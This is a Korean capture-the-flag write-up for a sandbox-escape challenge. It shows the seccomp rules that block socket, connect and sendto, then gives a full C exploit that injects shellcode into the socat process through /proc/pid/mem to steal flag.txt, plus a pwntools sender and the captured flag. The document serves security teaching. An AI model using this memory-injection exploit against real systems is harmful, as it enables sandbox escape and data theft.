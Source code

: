 # system_vuln

# Usage

# Concept

- 권한 설정 오류
- /proc/pid/mem, maps

# Writeup

문제는 매우 심플하게 쉘코드를 실행할 수 있는 문제이다. seccomp 필터로 `socket` 시스템 콜의 실행을 허용하지 않는다. 

```cpp
seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(socket), 0);
```

추가적으로 docker 내부에서 `connect` , `sendto` 시스템콜을 사용할 수 없다. TCP/UDP 리버스 쉘의 실행을 막는 용도이다. 

```json
{
    "defaultAction": "SCMP_ACT_ALLOW",
    "syscalls": [
        {
            "names": ["connect", "sendto"],
            "action": "SCMP_ACT_ERRNO"
        }
    ]
}
```

또한 문제에서 fd 1, 2 를 닫기 때문에 더이상의 출력을 보는 것은 불가능하다. 아무 설정도 안하면 fd 0으로 출력이 가능하지만, socat의 -u 옵션을 통해서 이를 막았다. -u 옵션을 적용시 바이너리가 출력하는 데이터가 서버의 socat 프로세스에서 출력된다

```python
osori@DESKTOP-R4ES5NB:system_vuln$ socat -u -T 10 TCP-LISTEN:15253,reuseaddr EXEC:./system
[Super Safe Sandbox]
code > 
```

문제의 출제의도는 시스템 자체의 권한설정 문제를 파악하여 socat 프로세스를 해킹하는 것이다. 이 문제에서 socat 프로세스는 sandbox 라는 유저 권한으로 동작하고, 문제 또한 sandbox 권한으로 실행된다.

```cpp
UID          PID    PPID  C STIME TTY          TIME CMD
sandbox        1       0  0 15:28 ?        00:00:00 /bin/sh -c ./start.sh
sandbox        7       1  0 15:28 ?        00:00:00 /bin/sh ./start.sh
sandbox        8       7  0 15:28 ?        00:00:00 socat -T 30 TCP-LISTEN:15252,reuseaddr EXEC:/home/sandbox/system,stderr
sandbox        9       0  1 15:42 pts/0    00:00:00 /bin/bash
sandbox       17       9  0 15:42 pts/0    00:00:00 ps -ef
```

리눅스에서 다른 프로세스의 메모리에 접근할 수 있는 가장 쉬운 방법은 /proc/pid/mem 을 이용하는 것이다. 프로세스의 메모리 맵을 파일로 다룰 수 있기 때문에 seek 를 통해서 주소로 이동하고 값을 적기만 하면 된다. /proc/pid/maps를 이용해서 프로세스의 메모리 맵을 알 수 있기 때문에 이를 이용해서 프로세스의 주소공간을 파악할 수 있다. 

플래그를 얻기 위한 방법으로는 바인드쉘 또는 소켓 재사용이 있다. 이 중 후자인 소켓 재사용의 방법으로 문제를 해결하겠다. 

strace 를 이용해서 socat 프로세스의 시스템콜을 트레이싱하면 `shutdown` 으로 소켓을 종료하는 것을 볼 수 있다. 따라서 /proc/pid/mem 을 이용해서 shutdown 함수의 첫번째 바이트를 0xc3(ret) 으로 변경하고, exit 함수에 flag 를 읽고 소켓으로 출력하는 쉘코드를 작성한다. 

```
write(2, "2024/06/09 00:43:35 socat[128841"..., 802024/06/09 00:43:35 socat[128841] E waitpid(): child 128870 exited on signal 11
) = 80
shutdown(6, SHUT_RDWR)                  = 0
shutdown(5, SHUT_RDWR)                  = 0
exit_group(1)                           = ?
+++ exited with 1 +++
```

아래는 C언어 코드이다. 컴파일  gdb 의 dump 기능을 이용하여 main 함수를 덤프하여 shellcode 라는 파일로 만들어주었다. ~~사실 난이도가 hard 인 이유는 쉘코드를 작성하는 귀찮음..~~

```c
#include <sys/mman.h>
#include <linux/memfd.h>
#include <fcntl.h>
#include <sys/syscall.h>

void inject(){
	char buf[0x100];
	int fd;
	char flag[] = "flag.txt";
	asm("lea rdi, [%0];"::"r"(flag));
    asm("mov esi, 0");    
    asm("mov eax, 2");
    asm("syscall"); //open(flag, 0)
	asm("mov [%0], eax"::"r"(&fd):"eax");
	asm("mov edi, %0;"::"r"(fd));
	asm("lea rsi, [%0];"::"r"(buf));
	asm("mov edx, 0x100");
	asm("mov eax, 0;");
	asm("syscall;");//read(fd, buf, 0x100)		
	for (int i = 6; i < 100; i++){
		asm("mov edi, %0;"::"r"(i));
		asm("lea rsi, [%0]"::"r"(buf));    
		asm("mov edx, 0x100");
		asm("mov eax, 1");
		asm("syscall"); //write(i, buf, 0x100)
	}
}

void main(){        
    const int MMAP = 9;
    const int WRITE = 1;
    int result;        
    char maps[] = "/proc/8/maps";
    char mem[] = "/proc/8/mem";    
    char buf[0x1000];
	//inject 함수를 덤프한 쉘코드
	char code[] = "\x55\x48\x89\xe5\x48\x81\xec\xa8\x0\x0\x0\x48\xb8\x66\x6c\x61\x67\x2e\x74\x78\x74\x48\x89\x85\xe3\xfe\xff\xff\xc6\x85\xeb\xfe\xff\xff\x0\x48\x8d\x85\xe3\xfe\xff\xff\x48\x8d\x38\xbe\x0\x0\x0\x0\xb8\x2\x0\x0\x0\xf\x5\x48\x8d\x95\xec\xfe\xff\xff\x89\x2\x8b\x85\xec\xfe\xff\xff\x89\xc7\x48\x8d\x85\xf0\xfe\xff\xff\x48\x8d\x30\xba\x0\x1\x0\x0\xb8\x0\x0\x0\x0\xf\x5\xc7\x45\xfc\x3\x0\x0\x0\xeb\x1f\x8b\x45\xfc\x89\xc7\x48\x8d\x85\xf0\xfe\xff\xff\x48\x8d\x30\xba\x0\x1\x0\x0\xb8\x1\x0\x0\x0\xf\x5\x83\x45\xfc\x1\x83\x7d\xfc\x63\x7e\xdb\x90\x90\xc9";
    void* (*syscall)() = 0x4011d6;    
    asm("lea rdi, [%0];"::"r"(maps));
    asm("mov esi, 0");    
    asm("mov eax, 2");
    asm("syscall"); //open(maps, 0)
    asm("mov [%0], eax"::"r"(&result):"eax");
    asm("mov edi, %0;"::"r"(result));
    asm("mov esi, 0x1000;");
    asm("mov edx, 0;"); 
    asm("mov eax, 8;");
    asm("syscall");//lseek(result, 0x2000, 0)
	asm("mov edi, %0;"::"r"(result));
	asm("lea rsi, [%0];"::"r"(buf));
	asm("mov edx, 0x1000");
	asm("mov eax, 0;");
	asm("syscall;");//read(result, buf, 0x1000)		
	size_t addr = 0;
	for (int i = 0; i < 0x1000 - 8; i++){
		size_t* ptr = &buf[i];
		if (*ptr == 0x2e6f732e6362696c){			
			for(int j = 0; j < 12; j++){
				char* end = &buf[i - 0x50 - 19] + j;						
				//16진수를 정수로 변환
				if (*end >= 'a'){
					*end = *end - 'a' + 10;
				}
				else{
					*end -= '0' ;
				}
				addr += *end;
				addr <<= 4;
			}
			addr >>= 4;
			break;
		}
	}
	size_t exit_addr = addr + 0x455f0; //libc 파일에서 얻은 exit 함수의 오프셋
	size_t shudown_addr = addr + 0x0127b00;
	asm("lea rdi, [%0];"::"r"(mem));
    asm("mov esi, 2");    
    asm("mov eax, 2");
    asm("syscall"); //open(mem, 2)
    asm("mov [%0], eax"::"r"(&result):"eax"); //result = eax
    asm("mov edi, %0;"::"r"(result)); 
    asm("lea rsi, [%0];"::"r"(exit_addr));
    asm("mov edx, 0;"); 
    asm("mov eax, 8;");
    asm("syscall");//lseek(result, exit_addr, 0)    
	asm("mov edi, %0;"::"r"(result));
	asm("lea rsi, [%0]"::"r"(code));    
	asm("mov edx, 145");
	asm("mov eax, 1");
	asm("syscall"); //write(result, code, 138)
	code[0] = '\xc3'; //ret
	asm("mov edi, %0;"::"r"(result)); 
    asm("lea rsi, [%0];"::"r"(shudown_addr));
    asm("mov edx, 0;"); 
    asm("mov eax, 8;");
    asm("syscall");//lseek(result, shudown_addr, 0)    
	asm("mov edi, %0;"::"r"(result));
	asm("lea rsi, [%0]"::"r"(code));    
	asm("mov edx, 1");
	asm("mov eax, 1"); //write(result, code, 1)
	asm("syscall");
}

```

파이썬 익스플로잇 코드는 아래와 같다.

```python
from pwn import*
#context.log_level = 'debug'
context.arch = 'amd64'
p = remote('localhost', 15252)
pause()
pl = open('shellcode' ,'rb').read()
p.send(pl)
p.interactive()
```

코드를 실행시 아래와 같이 flag를 얻을 수 있다. 

```python
[+] Opening connection to localhost on port 15252: Done
[*] Paused (press any to continue)
[*] Switching to interactive mode
 hsapce{n0T_0Nly_Ch@1lENGe_BUT_WHo1E_SY$TEM}
```